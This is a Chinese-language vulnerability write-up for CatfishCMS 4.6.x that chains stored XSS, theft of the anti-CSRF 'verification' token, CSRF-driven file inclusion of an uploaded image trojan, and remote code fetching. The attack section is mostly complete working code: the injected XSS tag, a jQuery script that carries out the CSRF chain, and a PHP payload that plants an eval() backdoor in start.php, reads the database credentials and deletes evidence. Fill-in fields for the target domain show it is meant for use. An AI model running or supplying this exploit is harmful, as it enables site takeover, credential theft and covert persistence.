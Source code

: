 CatfishCMS 4.6.15 csrf getshell
===============================

一、漏洞简介
------------

在测试的过程中发现更新版本的时候作者添加一个参数 verification
可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification
就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。

二、漏洞影响
------------

CatfishCMS 4.6

三、复现过程
------------

### 漏洞分析

文件：CatfishCMS-4.6.12\\catfish\\library\\think\\Template.php

函数：fetch()

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId25.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId26.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId27.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId28.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId29.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId30.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户-\>注册一个图片马到网站中-\>评论处插入xss代码-\>等待无辜管理员登录网站-\>获取
verification(绕过检测)-\>管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)-\>包含漏洞执行代码-\>包含漏洞添加getshell\_code.php文件写入恶意代码-\>包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库-\>删除我们前面的评论-\>删除我们csrf创建的页面-\>邮件通知我们-\>getshell

CatfishCMS-4.6.12-xss.js

    /*  
        需要插入的xss代码
        <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
    */ 

    //不用动的
    var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
    var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
    var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

    //需要改的
    var url = 'http://0-sec.org';//你要日的站的域名
    var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
    var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
    var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

    $('body').append('<div id="csrf_verification" style="display:none;"></div>');
    $('body').append('<div id="csrf_allpage" style="display:none;"></div>');

    $.ajax({
        url: url+directory+articles,
        dataType: "json",
        success: function(verification_content){
            $('#csrf_verification').append(verification_content);
            var verification = $('#verification').html();//用来绕过验证的
            // alert(verification);

            //csrf生成文章,引起文件包含漏洞
            $.ajax({
                type: "POST",
                url: url+directory+newpage,
                data: {
                    'biaoti':'xss_csrf_getshll',
                    'template':img_trojan_url,
                    'verification':verification,
                    'fabushijian':'2017-12-05 11:56:48'
                },
                success: function(){
                    //csrf获取shell链接
                    $.ajax({
                        type: "POST",
                        url: url+directory+allpage,
                        success: function(allpage_content){
                            $('#csrf_allpage').append(allpage_content);
                            var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                            var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                            var shell_content = '';
                                shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                                shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                                shell_content+= 'fwrite($myfile, $txt);';
                                console.log(shell_content);
                            
                            //执行shell 生成马子
                            $.ajax({
                                type: "POST",
                                url: url+shell_url,
                                dataType: "json",
                                data: {'ddd':shell_content},
                                success: function(data){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                },
                                error: function(){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                }   
                            });

                        } 
                    });

                } 
            });

        }
    });

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId32.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId33.png)

写好以后模拟管理员，进入后台

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId34.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId35.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId36.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId37.png)

getshell\_code

    <?php  
        $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
        $start = fopen('catfish/start.php', 'w');
        fwrite($start, $start_content);
        if( @$_GET[zzz]){
            $config = require_once("application/database.php");
            //分别对应的是 地址，端口号，连接的数据库，编码
            $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
            $user = $config['username'];
            $psw = $config['password'];
            $pdo = new PDO($dsn,$user,$psw);
            $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
            $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
            $pdo->query($sql);
            $pdo->query($sql_1);
            unlink('getshell_code.php');
        }
    ?>

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId38.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

    http://0-sec.org/index.php

    POST

    ddd = 你要执行的命令

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId39.png)

![](./resource/CatfishCMS4.6.15csrfgetshell/media/rId40.png)
